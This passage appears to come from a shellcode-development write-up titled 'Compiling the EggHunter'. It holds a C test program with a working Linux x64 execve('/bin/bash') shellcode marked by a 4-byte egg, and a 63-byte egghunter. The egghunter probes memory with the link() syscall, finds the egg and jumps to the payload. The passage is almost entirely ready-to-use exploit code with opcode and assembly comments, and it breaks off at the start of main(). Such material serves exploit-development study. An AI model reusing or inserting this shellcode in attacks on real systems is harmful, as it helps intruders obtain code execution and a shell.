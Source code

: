 
## Compiling the EggHunter

To test the egghunter, we create a simple C program that will search for our egg(s). Once we find our eggs, the egghunter will jump to our payload and execute our execve shellcode.


#### EggHunter C Program
```nasm
// Shellcode Title:  Linux/x64 - EggHunter Execve Shellcode (63 Bytes)
// Shellcode Author: Bobby Cooke
// Tested On:        Kali Linux 5.3.0-kali3-amd64 x86_64
// Filename: Hunter.c
#include <stdio.h>
#include <string.h>
// This is the egg for our eggHunter
// the egg should be 4 bytes and be executable
#define egg "\x90\x50\x90\x50"

unsigned char shellcode[] = \
egg \
egg \
"\x48\x31\xf6"     // xor rsi, rsi
"\x48\xf7\xe6"     // mul rsi          ; rdx&rax= 0x0
"\x48\x31\xff"     // xor rdi, rdi
"\x57"             // push rdi
"\x48\x83\xc2\x68" // add rdx, 0x68
"\x52"             // push rdx
"\x48\xba\x2f\x62\x69\x6e\x2f\x62\x61\x73" // movabs rdx, 0x7361622f6e69622f ; "/bin/bas"
"\x52"             // push rdx
"\x48\x31\xd2"     // xor rdx, rdx
"\x48\x89\xe7"     // mov rdi, rsp ; rdi = Pointer -> "/bin/bash"0x00
"\xb0\x3b"         // mov al, 0x3b ; execve syscall number
"\x0f\x05";        // syscall  ; call execve("/bin/bash", NULL, NULL)

// Replace the hardcoded egg with a variable.
// This allows us to easily change the egg for our eggHunter.
unsigned char egghunter[] = \
"\x48\x31\xc9"                 // xor rcx, rcx
"\x48\xf7\xe1"                 // mul rcx
"\x48\x81\xc2\x10\x10\x55\x55" // add rdx, 0x55551010 ; Start >0 (hopefully reduce time)
"\x48\xc1\xe2\x10"             // shl rdx, 0x10       ; 0x55551010 => 0x555510100000
// nextPage:
"\x66\x81\xca\xff\x0f"         // or dx, 0xfff        ; 0xfff = 4096. Size of page
// nextAddress:
// ; int link(const char *oldpath, const char *newpath);
"\x48\xff\xc2"     // inc rdx
"\x48\x8d\x7a\x08" // lea rdi, [rdx+0x8]  ; ARG1=*oldpath
"\x48\x31\xf6"     // xor rsi, rsi        ; ARG2=*newpath
"\x48\x31\xc0"     // xor rax, rax        ; reset rax for syscall
"\x04\x56"         // add al, 0x56        ; System Call for link()
"\x0f\x05"         // syscall             ; Executes link()
"\x3c\xf2"         // cmp al, 0xf2        ; Can memory address be read?
"\x74\xe6"         // jz nextPage         ; If no, check the next memory page
"\x48\x31\xdb"     // xor rbx, rbx
"\x81\xc3\x90\x50\x90\x50"     // add ebx, 0x50905090 ; Configure Egg in RBX
"\x39\x1a"         // cmp [rdx], ebx      ; Egg?
"\x75\xde"         // jnz nextAddress     ; No Egg? Go to next memory page
"\x39\x5a\x04"     // cmp [rdx+0x4], ebx  ; second Egg?
"\x75\xd9"         // jnz nextAddress     ; No Egg? Check next memory address
"\xff\xe2";        // jmp rdx             ; EGG FOUND! Jump to Egg!

int main()
{
```